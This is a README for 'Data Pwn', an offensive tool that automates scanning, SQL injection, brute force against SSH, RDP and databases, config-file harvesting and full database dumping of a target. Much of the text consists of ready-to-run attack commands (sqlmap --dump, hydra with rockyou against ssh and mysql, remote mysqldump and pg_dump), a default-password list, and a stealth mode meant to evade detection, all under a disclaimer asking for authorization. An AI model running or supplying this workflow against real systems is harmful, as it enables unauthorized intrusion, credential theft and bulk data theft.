


# 🔥 Data Pwn - Ultimate Data Extraction Tool

[](https://github.com/Hackura-Labs/data_pwn)
[](https://www.kali.org/)
[](https://www.python.org/)
[](LICENSE)

> **Professional penetration testing tool for external data extraction through multiple attack vectors.**

---

## 📋 Table of Contents

- [Overview](#-overview)
- [Features](#-features)
- [Prerequisites](#-prerequisites)
- [Installation](#-installation)
- [Quick Start](#-quick-start)
- [Usage Guide](#-usage-guide)
- [Attack Vectors](#-attack-vectors)
- [Configuration](#-configuration)
- [Output Structure](#-output-structure)
- [Reporting](#-reporting)
- [Troubleshooting](#-troubleshooting)
- [Security Best Practices](#-security-best-practices)
- [Legal Disclaimer](#-legal-disclaimer)
- [Contributing](#-contributing)
- [License](#-license)

---

## 🎯 Overview

Data Pwn is a comprehensive, menu-driven penetration testing tool designed for security professionals to assess external attack surfaces and extract data from target systems through various vectors including:

- ✅ Web Application Attacks (SQLi, LFI, Config Leaks)
- ✅ Service Attacks (SSH, RDP, Database Brute Force)
- ✅ Credential Harvesting
- ✅ Multi-Database Support (MySQL, PostgreSQL, MSSQL, MongoDB, Redis)
- ✅ Automated Data Extraction
- ✅ Comprehensive Reporting

### Why Data Pwn?

- **All-in-One**: Combines multiple attack vectors in a single tool
- **Kali Integration**: Leverages existing Kali tools for maximum efficiency
- **User-Friendly**: Interactive menu system with clear output
- **Professional**: Comprehensive logging and reporting
- **Ethical**: Built for authorized penetration testing

---

## ✨ Features

### Core Capabilities

| Feature | Description |
|---------|-------------|
| **Multi-Phase Attacks** | Recon → Web → Services → Data Extraction |
| **Kali Tool Integration** | Uses nmap, sqlmap, hydra, gobuster, and more |
| **Interactive Menu** | Professional CLI interface with color output |
| **Stealth Mode** | Slow down attacks to avoid detection |
| **Fallback Methods** | Works without Kali tools too |
| **Credential Harvesting** | Finds passwords in config files and services |
| **Data Extraction** | Dumps databases, configs, and sensitive files |
| **Comprehensive Reporting** | Detailed reports with findings and recommendations |

### Database Support

| Database | Port | Attack Methods | Extraction Method |
|----------|------|----------------|-------------------|
| **MySQL** | 3306 | Brute force, Default creds | mysqldump |
| **PostgreSQL** | 5432 | Brute force, Default creds | pg_dump |
| **MSSQL** | 1433 | Brute force, Default creds | mssql-cli |
| **Oracle** | 1521 | Brute force, Default creds | Oracle tools |
| **MongoDB** | 27017 | Brute force, Default creds | mongodump |
| **Redis** | 6379 | No auth, Brute force | redis-cli |
| **Elasticsearch** | 9200 | No auth, Brute force | REST API |

### Tool Integration

| Tool | Purpose | Fallback |
|------|---------|----------|
| **nmap** | Port scanning | Built-in scanner |
| **sqlmap** | SQL injection | Custom SQLi tests |
| **hydra** | Brute force | Python fallback |
| **gobuster** | Directory enumeration | Python requests |
| **wpscan** | WordPress scanning | Built-in checks |
| **nikto** | Web vulnerability scanning | Custom checks |
| **dnsrecon** | DNS enumeration | Built-in queries |
| **whatweb** | Technology fingerprinting | Built-in detection |

---

## 📋 Prerequisites

### Kali Linux (Recommended)

```bash
# Install required Kali tools
sudo apt update
sudo apt install -y \
    nmap \
    sqlmap \
    hydra \
    gobuster \
    wpscan \
    nikto \
    dnsrecon \
    sublist3r \
    whatweb \
    sshpass \
    crackmapexec \
    medusa
```

### Generic Linux (Debian/Ubuntu)

```bash
# Install Python and base tools
sudo apt update
sudo apt install -y \
    python3 \
    python3-pip \
    nmap \
    hydra \
    gobuster \
    sshpass

# Install Python dependencies
pip3 install -r requirements.txt
```

### Windows (WSL2 Recommended)

```bash
# Install WSL2
wsl --install

# Then follow Linux installation steps inside WSL
```

### macOS

```bash
# Install Homebrew
/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/HEAD/install.sh)"

# Install tools
brew install nmap hydra gobuster

# Install Python dependencies
pip3 install -r requirements.txt
```

---

## 🚀 Installation

### Option 1: One-Line Install (Linux)

```bash
curl -s https://raw.githubusercontent.com/Hackura-Labs/data_pwn/main/install.sh | bash
```

### Option 2: Manual Installation

```bash
# Clone the repository
git clone https://github.com/Hackura-Labs/data_pwn.git
cd data_pwn

# Create virtual environment
python3 -m venv venv
source venv/bin/activate  # On Windows: venv\Scripts\activate

# Install dependencies
pip install -r requirements.txt

# Make executable
chmod +x data_pwn.py
```


## ⚡ Quick Start

### Basic Usage

```bash
# Interactive mode (recommended)
python3 data_pwn.py -t example.com

# Full automatic attack
python3 data_pwn.py -t example.com -a

# Stealth mode (slow and low)
python3 data_pwn.py -t example.com -a --stealth
```

### First Run Example

```bash
$ python3 data_pwn.py -t example.com

╔═══════════════════════════════════════════════════════════════╗
║           DATA PWN v1.0 - Ultimate Data Hunter               ║
╚═══════════════════════════════════════════════════════════════╝

Target: example.com
Output: data_pwn_example_com_20260126_120000
Stealth: Disabled
Kali: Available
----------------------------------------------------------------------

[2026-01-26 12:00:00] [INFO] Initialized Data Pwn against example.com
[2026-01-26 12:00:00] [SCAN] Phase 1: Reconnaissance
[2026-01-26 12:00:05] [FOUND] Port 22 open - ssh
[2026-01-26 12:00:05] [FOUND] Port 80 open - http
[2026-01-26 12:00:05] [FOUND] Port 443 open - https
[2026-01-26 12:00:05] [FOUND] Port 3306 open - mysql
```

---

## 📖 Usage Guide

### Command Line Options

```bash
python3 data_pwn.py -h

usage: data_pwn.py [-h] -t TARGET [-a] [-r] [-w] [-s] [--stealth] [--report] [-o OUTPUT]

Data Pwn - Ultimate Data Extraction Tool

optional arguments:
  -h, --help            Show this help message and exit
  -t TARGET, --target TARGET
                        Target IP address or domain
  -a, --auto            Automatic mode (no menu)
  -r, --recon-only      Reconnaissance only
  -w, --web             Web attacks only
  -s, --services        Service attacks only
  --stealth             Enable stealth mode
  --report              Generate report only
  -o OUTPUT, --output OUTPUT
                        Custom output directory
```

### Interactive Menu

```
┌─────────────────────────────────────────────────────────────┐
│                    MAIN MENU                               │
├─────────────────────────────────────────────────────────────┤
│  1. Full Attack        - Run everything (Recommended)      │
│  2. Reconnaissance     - Port scan + Enumeration          │
│  3. Web Attacks        - SQLi, LFI, Config leaks          │
│  4. Service Attacks    - SSH/DB brute force               │
│  5. Data Extraction    - Extract found data               │
│  6. Report             - Generate detailed report         │
│  7. Configure          - Change settings                  │
│  0. Exit               - Quit Data Pwn                   │
└─────────────────────────────────────────────────────────────┘
```

### Usage Examples

#### Full Attack with Report

```bash
python3 data_pwn.py -t 192.168.1.100 -a
```

This will:
1. Run reconnaissance (port scan, DNS enumeration)
2. Perform web attacks (SQLi, directory brute force)
3. Execute service attacks (SSH/DB brute force)
4. Extract any found data
5. Generate comprehensive report

#### Stealth Mode

```bash
python3 data_pwn.py -t example.com -a --stealth
```

Stealth mode features:
- Slower scanning speeds
- Randomized delays (1-5 seconds between attempts)
- Reduced connection attempts
- Random user agents
- Lower thread count
- Less aggressive payloads

#### Reconnaissance Only

```bash
python3 data_pwn.py -t example.com -r
```

Output includes:
- Open ports and services
- DNS records
- Subdomains found
- Technology stack
- Initial vulnerability assessment

#### Web Attacks Only

```bash
python3 data_pwn.py -t example.com -w
```

Will test:
- SQL Injection (all parameters)
- Local File Inclusion
- Configuration file exposure (.env, config.php)
- Backup file discovery
- Directory enumeration
- WordPress vulnerabilities (if detected)

#### Service Attacks Only

```bash
python3 data_pwn.py -t example.com -s
```

Targets:
- SSH brute force
- MySQL/PostgreSQL/MSSQL brute force
- RDP brute force
- FTP anonymous access
- Redis/MongoDB authentication

---

## 🗺️ Attack Vectors

### Phase 1: Reconnaissance



#### Port Scanning

```bash
# Fast scan
nmap -sS -T4 -p- --min-rate 1000 target

# Service version detection
nmap -sV -sC -A -p22,80,443,3306,5432 target
```

#### DNS Enumeration

```bash
# DNS brute force
dnsrecon -d target.com -t brt

# Subdomain enumeration
sublist3r -d target.com

# Zone transfer
dnsrecon -d target.com -t axfr
```

### Phase 2: Web Application Attacks



#### SQL Injection

```bash
# Automated SQLi with sqlmap
sqlmap -u http://target.com/page?id=1 --batch --dbs --dump

# Custom payload injection
python3 data_pwn.py -t target.com -w --sqli
```

#### Configuration Leaks

Common files checked:
- `.env`
- `config.php`
- `wp-config.php`
- `database.yml`
- `settings.py`
- `appsettings.json`
- `web.config`
- `backup.sql`

#### Directory Brute Force

```bash
# Common directories
gobuster dir -u http://target.com -w /usr/share/wordlists/dirb/common.txt

# With extensions
gobuster dir -u http://target.com -w wordlist.txt -x php,html,txt,sql,bak
```

### Phase 3: Service Attacks

#### SSH Brute Force

```bash
# Slow and stealthy
hydra -L users.txt -P passwords.txt -t 4 -w 30 ssh://target

# Wordlist-based
hydra -l root -P /usr/share/wordlists/rockyou.txt -t 2 -w 60 ssh://target
```

#### Database Brute Force

```bash
# MySQL
hydra -L users.txt -P passwords.txt mysql://target

# PostgreSQL
hydra -L users.txt -P passwords.txt postgresql://target

# MSSQL
hydra -l sa -P passwords.txt mssql://target
```

### Phase 4: Data Extraction

#### Database Dumping

```bash
# MySQL
mysqldump -h target -u root -p --all-databases > dump.sql

# PostgreSQL
pg_dump -h target -U postgres --all > dump.sql

# MongoDB
mongodump -h target -u admin -p password --out ./dump
```

#### File Extraction

```bash
# SSH file mining
find / -name "*.sql" -o -name "*.db" -o -name "*.dump" 2>/dev/null

# Config file search
find /var/www -name "*.php" -o -name "*.conf" | grep -E "(config|database)"
```

---

## ⚙️ Configuration

### Custom Wordlists

Edit `Config.WORDLISTS` in `data_pwn.py`:

```python
Config.WORDLISTS = {
    'rockyou': '/path/to/rockyou.txt',
    'dirbuster': '/path/to/dirbuster.txt',
    'subdomains': '/path/to/subdomains.txt',
    'unix_users': '/path/to/unix_users.txt',
    'windows_users': '/path/to/windows_users.txt',
    'mysql_users': '/path/to/mysql_users.txt',
    'postgres_users': '/path/to/postgres_users.txt',
    'mssql_users': '/path/to/mssql_users.txt'
}
```

### Stealth Mode Settings

```python
# In data_pwn.py
class Config:
    STEALTH_SETTINGS = {
        'min_delay': 1,          # Minimum seconds between attempts
        'max_delay': 5,          # Maximum seconds between attempts
        'max_threads': 4,        # Concurrent threads
        'scan_speed': 'slow',    # slow, medium, fast
        'random_user_agent': True,
        'rotate_proxies': False,  # Requires proxy list
    }
```

### Custom Passwords

```python
# Built-in password list
DEFAULT_PASSWORDS = [
    '', 'root', 'admin', 'password', '123456', 'toor', 'welcome',
    'qwerty', 'abc123', 'letmein', 'monkey', 'dragon', 'master',
    'changeit', 'sa', 'oracle', 'postgres', 'mysql', 'test'
]
```

### Timeout Settings

```python
# Connection timeouts (seconds)
CONNECTION_TIMEOUT = 5
SCAN_TIMEOUT = 300
BRUTE_TIMEOUT = 60
EXTRACT_TIMEOUT = 120
```

---

## 📁 Output Structure

```
data_pwn_target.com_20260126_120000/
│
├── nmap_scan.gnmap           # Nmap output (grepable)
├── nmap_scan.nmap            # Nmap output (human-readable)
├── nmap_scan.xml             # Nmap output (XML)
│
├── sqlmap/                   # SQLMap results
│   ├── dump/                 # Dumped data
│   ├── log/                  # SQLMap logs
│   └── output/               # Query results
│
├── hydra_mysql.txt           # MySQL brute force results
├── hydra_postgres.txt        # PostgreSQL brute force results
├── hydra_ssh.txt             # SSH brute force results
├── hydra_rdp.txt             # RDP brute force results
│
├── gobuster.txt              # Directory enumeration results
├── nikto.html                # Nikto scan report
├── wpscan.txt                # WordPress scan results
│
├── exposed_.env              # Exposed environment file
├── exposed_config.php        # Exposed config file
├── exposed_wp-config.php     # Exposed WordPress config
│
├── mysql_dump.sql            # MySQL database dump
├── postgres_dump.sql         # PostgreSQL database dump
├── mongodb_dump/             # MongoDB dump directory
├── redis_keys.txt            # Redis keys found
│
├── ssh_data_0.txt            # SSH data mining output
├── ssh_data_1.txt            # SSH command results
│
├── data_pwn.log              # Full activity log
├── report.txt                # Comprehensive report
└── findings.json             # Structured findings (JSON)
```

---

## 📊 Reporting

### Report Sections

1. **Executive Summary**
   - Target information
   - Testing date
   - Overall risk rating

2. **Findings**
   - Open ports and services
   - Vulnerabilities discovered
   - Credentials found
   - Extracted data

3. **Technical Details**
   - Attack vectors used
   - Exploitation steps
   - Data accessed

4. **Recommendations**
   - Remediation steps
   - Security improvements
   - Configuration changes

### Sample Report

```
╔═══════════════════════════════════════════════════════════════╗
║                    DATA PWN REPORT                            ║
╚═══════════════════════════════════════════════════════════════╝

Target:           example.com
Date:             2026-01-26 12:00:00
Stealth Mode:     Disabled
Kali Available:   Yes
Output Directory: data_pwn_example_com_20260126_120000

─────────────────────────────────────────────────────────────────
OPEN PORTS
─────────────────────────────────────────────────────────────────
   22              ssh
   80              http
   443             https
   3306            mysql
   5432            postgresql

─────────────────────────────────────────────────────────────────
FOUND CREDENTIALS
─────────────────────────────────────────────────────────────────
       mysql  root:password123
   postgresql  postgres:admin
         ssh  root:toor

─────────────────────────────────────────────────────────────────
VULNERABILITIES
─────────────────────────────────────────────────────────────────
  • SQL Injection
  • Exposed .env file
  • Weak MySQL credentials
  • Default PostgreSQL credentials

─────────────────────────────────────────────────────────────────
EXTRACTED DATA
─────────────────────────────────────────────────────────────────
  • mysql_dump.sql (1,234,567 bytes) - 3 databases, 15 tables
  • postgres_dump.sql (234,567 bytes) - 2 databases, 8 tables
  • exposed_.env (512 bytes) - Contains DB_PASSWORD
  • ssh_data_0.txt (1,024 bytes) - Contains database credentials

─────────────────────────────────────────────────────────────────
SUMMARY
─────────────────────────────────────────────────────────────────
  Open Ports:     5
  Credentials:    3
  Vulnerabilities:4
  Data Files:     4
  
  Status:         ✅ DATA ACCESS ACHIEVED
  Risk Rating:    🔴 HIGH (Critical)

─────────────────────────────────────────────────────────────────
RECOMMENDATIONS
─────────────────────────────────────────────────────────────────
  1. Close unnecessary ports (3306, 5432 from internet)
  2. Use strong passwords for all databases
  3. Remove .env file from web root
  4. Update MySQL to latest version
  5. Implement rate limiting for SSH
  6. Enable firewall with IP whitelisting

═══════════════════════════════════════════════════════════════
Report saved to: data_pwn_example_com_20260126_120000/report.txt
```

### HTML Report (Coming Soon)

- Interactive visualization
- Vulnerability charts
- Attack timeline
- Screenshot integration

---

## 🔧 Troubleshooting

### Common Issues

#### "Kali tools not found"

```bash
# Install missing tools
sudo apt update
sudo apt install nmap masscan sqlmap hydra gobuster wpscan nikto

# Or run without Kali tools (fallback mode)
python3 data_pwn.py -t target.com
```

#### "Connection reset by peer"

```
Possible causes:
- Firewall blocking connection
- Server is not actually running
- Network issues
- Too many connection attempts

Solutions:
- Use stealth mode: --stealth
- Check if server is online
- Verify port is actually open
- Wait before retrying
```

#### "Permission denied"

```bash
# Make script executable
chmod +x data_pwn.py

# Run with appropriate permissions
sudo python3 data_pwn.py -t target.com
```

#### "Python module not found"

```bash
# Install missing modules
pip install -r requirements.txt

# Specific module
pip install mysql-connector-python psycopg2-binary
```

### Debug Mode

```bash
# Run with verbose output
python3 -v data_pwn.py -t target.com

# Check log file
tail -f data_pwn_*/data_pwn.log
```

### Error Codes

| Code | Meaning | Solution |
|------|---------|----------|
| E001 | Target unreachable | Check network/URL |
| E002 | No web ports | Target not running web services |
| E003 | No credentials found | Try different wordlist |
| E004 | Extraction failed | Check database permissions |
| E005 | Report generation | Check disk space |

---

## 🛡️ Security Best Practices

### Before Testing

1. ✅ **Get Written Authorization**
   - Signed document from system owner
   - Clear scope of testing
   - Defined testing period

2. ✅ **Define Scope**
   - IP ranges to test
   - Services to test
   - Data access limits

3. ✅ **Prepare Environment**
   - Use isolated network
   - Enable logging
   - Have backup plan

### During Testing

1. ✅ **Stay Within Scope**
   - Don't test unauthorized systems
   - Don't access unnecessary data
   - Follow testing protocol

2. ✅ **Document Everything**
   - All actions taken
   - Successful attacks
   - Data accessed

3. ✅ **Minimize Impact**
   - Use stealth mode when needed
   - Avoid destructive actions
   - Don't disrupt services

### After Testing

1. ✅ **Secure Findings**
   - Encrypt sensitive data
   - Store in secure location
   - Limit access

2. ✅ **Responsible Disclosure**
   - Report vulnerabilities privately
   - Give time for fixes
   - Don't publicize without permission

3. ✅ **Delete Temporary Data**
   - Remove test data
   - Clean up output files
   - Delete credentials

### Ethical Guidelines

- ✅ **Always** have permission
- ✅ **Never** cause harm
- ✅ **Always** report findings
- ✅ **Never** share data
- ✅ **Always** follow laws

---

## 📚 Additional Resources

### Documentation

- [User Guide](docs/USER_GUIDE.md)
- [CONTRIBUTE](docs/CONTRIBUTING.md)

### Related Tools

- [Kali Linux](https://www.kali.org/)
- [Metasploit](https://www.metasploit.com/)
- [OWASP ZAP](https://www.zaproxy.org/)
- [Burp Suite](https://portswigger.net/burp)

### Security Resources

- [OWASP Top 10](https://owasp.org/Top10/)
- [NIST Guidelines](https://www.nist.gov/cyberframework)
- [ISO 27001](https://www.iso.org/standard/27001)
- [PCI DSS](https://www.pcisecuritystandards.org/)

### Training

- [CEH Certification](https://www.eccouncil.org/ceh)
- [OSCP Certification](https://www.offensive-security.com/oscp)
- [SANS Security Training](https://www.sans.org)
- [eLearnSecurity Courses](https://elearnsecurity.com)

---

## 🤝 Contributing

We welcome contributions! See [CONTRIBUTING.md](CONTRIBUTING.md) for details.

### Development Setup

```bash
# Clone repository
git clone https://github.com/Hackura-Labs/data_pwn.git
cd data_pwn

# Create virtual environment
python3 -m venv venv
source venv/bin/activate

# Install development dependencies
pip install -r requirements-dev.txt

# Run tests
pytest tests/
```

### Contribution Guidelines

1. **Fork** the repository
2. **Create** a feature branch
3. **Commit** your changes
4. **Push** to your fork
5. **Open** a pull request

### Code Style

- Follow PEP 8
- Use type hints
- Write docstrings
- Add tests

### Development Roadmap

#### v1.1.0 (Coming Soon)
- [ ] HTML report generation
- [ ] Proxy support
- [ ] More database types
- [ ] Multi-threading optimization

#### v2.0.0 (Planned)
- [ ] GUI interface
- [ ] Cloud platform integration
- [ ] API support
- [ ] Plugin system

---

## 📄 License

This project is licensed under the MIT License - see [LICENSE.md](LICENSE.md) for details.

### Third-Party Licenses

This software includes or depends on third-party tools and libraries:

- **Nmap**: GNU GPL v2
- **SQLMap**: GNU GPL v2
- **Hydra**: GNU GPL v2
- **Gobuster**: Apache 2.0
- **WPScan**: GNU GPL v3
- **Nikto**: GNU GPL v2
- **Paramiko**: GNU LGPL v2.1
- **Requests**: Apache 2.0

### Attribution

Data Pwn was created by @Hackurax.
Special thanks to the open-source security community.

---

## ⚠️ Legal Disclaimer

**IMPORTANT**: This tool is intended for authorized security testing and educational purposes only. Usage of this tool against targets without explicit written permission is illegal and violates computer fraud laws.

By using this tool, you agree to:

- ✅ Only use on systems you own or have explicit permission to test
- ✅ Comply with all applicable laws and regulations
- ✅ Not use for unauthorized access
- ✅ Accept full responsibility for your actions

See [LEGAL.md](LEGAL.md) for complete legal disclaimer.

---

## 📞 Support

- **Issues**: [GitHub Issues](https://github.com/Hackura-Labs/data_pwn/issues)
- **Discussions**: [GitHub Discussions](https://github.com/Hackura-Labs/data_pwn/discussions)
- **Email**: 
- **Twitter**: @

---

## 🙏 Acknowledgments

- Kali Linux Team
- Open-source security community
- All contributors and testers
- Security researchers worldwide

---

**Made with ❤️ by Security Researchers**

*Remember: With great power comes great responsibility. Use ethically!*

---

## 🏷️ Tags

`#pentesting` `#security` `#kali-linux` `#database` `#exploitation` `#security-tools` `#hacking` `#cybersecurity` `#penetration-testing` `#ethical-hacking`

---

**Version**: 1.0.0
**Last Updated**: June 2026  
**Status**: Active Development

---

*This README is maintained by the Data Pwn team. For updates and news, follow our repository.*